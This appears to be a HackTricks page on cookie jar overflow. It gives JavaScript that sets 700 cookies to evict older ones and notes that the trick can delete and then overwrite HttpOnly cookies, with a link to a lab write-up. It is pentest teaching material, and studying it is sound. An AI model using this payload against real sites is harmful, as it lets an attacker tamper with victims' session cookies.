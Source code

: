{{#include ../../banners/hacktricks-training.md}}

The browsers have a **limit on the number of cookies** that they can store for a page. Then, if for some reason you need to **make a cookie disappear**, you can **overflow the cookie jar** as the oldest ones will be deleted before:

```javascript
// Set many cookies
for (let i = 0; i < 700; i++) {
  document.cookie = `cookie${i}=${i}; Secure`
}

// Remove all cookies
for (let i = 0; i < 700; i++) {
  document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`
}
```

Notice, that third party cookies pointing to a different domain won't be overwritten.

> [!CAUTION]
> This attack can also be used to **overwrite HttpOnly cookies as you can delete it and then reset it with the value you want**.
>
> Check this in [**this post with a lab**](https://www.sjoerdlangkemper.nl/2020/05/27/overwriting-httponly-cookies-from-javascript-using-cookie-jar-overflow/).

{{#include ../../banners/hacktricks-training.md}}




